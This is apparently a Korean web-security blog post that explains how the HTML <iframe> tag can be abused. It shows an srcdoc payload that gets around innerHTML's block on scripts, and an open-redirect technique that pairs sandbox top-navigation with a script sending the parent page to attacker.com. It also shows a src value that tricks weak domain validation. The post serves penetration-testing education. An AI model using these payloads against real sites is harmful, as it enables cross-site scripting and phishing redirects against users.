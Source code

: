 ```yaml
---
layout: post
title: <iframe>
subtitle: 제일 취약하다고 생각하는 태그에 대한 나름의 분석
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - XSS
  - iframe
  - Open_Redirect
  - innerHTML
sidebar:
---
```

## Intro
`<iframe>`은 다른 웹 페이지(HTML)를 사용하기 위한 태그이고, 아직 많이 사용하고 있는 것 같습니다. 특히 youtube를 불러올 때, 많이 쓰는거 같다는 느낌을 받았습니다. [왜 video로 안불러오지....?]        

현 페이지가 보안에 안전한 페이지라도 불러오는 다른 웹 페이지가 안전하지 않다면 현 페이지에도 영향이 가기에 `<iframe>`에 대한 저의 인식은 취약한 태그로 자리잡고 있습니다.    

이 글에서 다양한 보안 설정들을 `<iframe>`을 통해 어떻게 우회? 및 공격할 수 있는지 적어두려고 합니다.   
## Detect & Exploit 
### Detect
우선 iframe 태그를 삽입할 수 있는 지 파악해주시면 됩니다.   
### Exploit

#### InnerHTML 우회
[MDN InnerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)문서를 보면 InnerHTML로 `<script>` 삽입 시 실행이 되지 않는다고 되어 있습니다. 저도 진단하면서 간혹 태그는 정상적으로 들어가지만, 실행이 안됐던 적이 있었는데 `<iframe>`을 통해 우회가 가능합니다.   
☑️물론 `<script>`가 삽입되는 곳이라면 다른 편한 방법이 있을 것입니다.   
```HTML
#srcdoc 속성을 이용한 태그 삽입
<iframe srcdoc="<script>alert()</script>">
```
#### Open Redirect
 iframe의 sandbox 속성을 이용하면 부모 창을 제어할 수 있습니다.   
```HTML
#webhook 
<script>window.top.location = https://attacker.com</script>

#victim site
<iframe src="https://webhook.site/~~" sandbox="allow-top-navigation allow-scripts">

#잘못된 src 검증 로직일 경우
<iframe src="https://www.youtube.com.webhook.site/~~" sandbox="allow-top-navigation allow-scripts">
```

## References
[`<iframe>`-MDN](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)
[JSONP Payload](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) JSONP 다룰 때 옮길예정

